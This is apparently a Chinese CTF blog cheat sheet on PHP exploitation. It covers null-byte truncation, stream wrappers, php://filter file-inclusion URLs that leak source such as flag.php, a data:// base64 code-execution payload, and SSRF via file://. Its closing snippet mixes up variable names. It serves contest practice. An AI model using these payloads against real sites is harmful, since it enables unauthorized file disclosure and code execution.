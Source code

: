 ```yaml
---
layout: post
title:  "CTF中PHP考察点"
subtitle: 'CTF中PHP利用点'
date:   2019-08-26 18:00:00
tags: CTF PHP
description: 'CTF PHP'
color: 'rgb(221,121,7)'
---
```


PHP版本<=5.2 可以使用%00进行截断。

#### PHP伪协议
php:// — 访问各个输入/输出流（I/O streams）
file:// — 访问本地文件系统
phar:// — PHP 归档
zlib:// — 压缩流
data:// — 数据（RFC 2397）
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
glob:// — 查找匹配的文件路径模式
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流

##### php://协议
php://filter
php://input

```
php://filter/read=convert.base64-encode/resource=index.php
/lfi.php?file=php://filter/convert.base64-encode/resource=flag.php
/lfi.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```

file_get_contents获取php://input内容(POST)，需要开启allow_url_include，并且当enctype=”multipart/form-data”的时候 php://input是无效的。

使用php://input 读取post内容

##### file://
用于访问本地文件系统，并且不受allow_url_fopen，allow_url_include影响，file://还经常和curl函数(SSRF)结合在一起

##### data://

将 include 的文件流重定向到用户控制的输入流

/test.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpO2V4aXQoKTsvLw==
可以用于控制 file_get_contents 的内容为用户输入的流



```
$file=$_GET['file'];
$data = @file_get_contents($a,'r');
echo $data;
```
